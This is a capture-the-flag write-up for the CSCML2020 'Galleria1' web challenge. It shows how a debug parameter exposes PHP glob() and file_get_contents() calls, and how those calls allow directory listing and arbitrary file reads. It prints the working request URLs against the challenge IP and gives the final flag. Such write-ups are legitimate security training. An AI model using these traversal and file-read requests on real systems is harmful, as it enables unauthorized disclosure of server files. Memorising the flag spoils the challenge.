

# Galleria1
[](https://shields.io/)

## Challenge


>I've opened a new gallery!
>
>134.122.94.112
>
>(wrap flag with CSCML2020{...})

## Solution

The webpage hosted at that IP address is full of css and js scripts. I've inspected all the possible loaded files but there is nothing suspicious. At the end of the html source code there is an interesting block of js code

```js
<script>
	// ~~~~~~  mY oWn CuStOm CoDe ~~~~~~  
	// Written by developer_user
	var canRun = 0;
    $(document).ready(function(){
        $.ajax({url: "get_files_items.php?debug=FALSE&folder=images", async: false, success: function(result){
        	$("#get_pictures").html(result);
		}});
		runMe();
	});
	
	// ~~~~~~ eNd mY oWn CuStOm CoDe ~~~~~~ 
    </script>  
```

So I've immediately tried to do this request with the debug activated

`view-source:http://134.122.94.112/get_files_items.php?debug=TRUE&folder=images`



The result is a list of files contained in `images/`. Now I want to analyze all possible directories!

Since the request contains the argument `debug=TRUE`, the beginning of the file shows some debug lines that explain which functions are used:

```
DEBUG Message: Getting a list op all the files in folder: images from the param folder using PHP function 'glob'.

Code Debug:
$folder = $_REQUEST["folder"];
$pictues = glob($folder . "/*");
```

Long story short: it is possible to abuse the `glob` funtion to traverse the directory structure! However, it took me a lot of time to figure out how to exploit it. After a long search in Internet, I found the first useful [resource](https://stackoverflow.com/questions/14798220/how-can-i-search-sub-folders-using-glob-glob-module) in Stackoverflow:

>In Python 3.5 and newer use the new recursive **/ functionality

It was for Python but it works for PHP, as well.

`view-source:http://134.122.94.112/get_files_items.php?debug=TRUE&folder=**/`

Unfortunatly, I can just list the files but I can't see their content. The most useful are:

- `clue_folder_good_job//clue.txt`

- `php_folder_cant_find_me_by_brute_force//old_get_files_items.php` that prints the following: **Debug is OFF**!

So I made a request with the variable debug `view-source:http://134.122.94.112/php_folder_cant_find_me_by_brute_force//old_get_files_items.php?debug=TRUE`

and the output is:

```
Code Debug:
$file = $_REQUEST["file"];
print file_get_contents($file);
```

So `old_get_files_items.php` allows to show file content!

After a while I discover that

`http://134.122.94.112/get_files_items.php?debug=TRUE&folder=`

lists the directories in the root `/`:


Finally, I found the flag file in the `/home` directory 

`http://134.122.94.112/php_folder_cant_find_me_by_brute_force/old_get_files_items.php?debug=true&file=/home/developer/FLAG.txt`

that contains

```
Code Debug:
$file = $_REQUEST["file"];
print file_get_contents($file);
S1FLAG.xDI0UiExW4pALibNe8aq4BDvHuk 
```

## Flag
`CSCML2020{S1FLAG.xDI0UiExW4pALibNe8aq4BDvHuk}`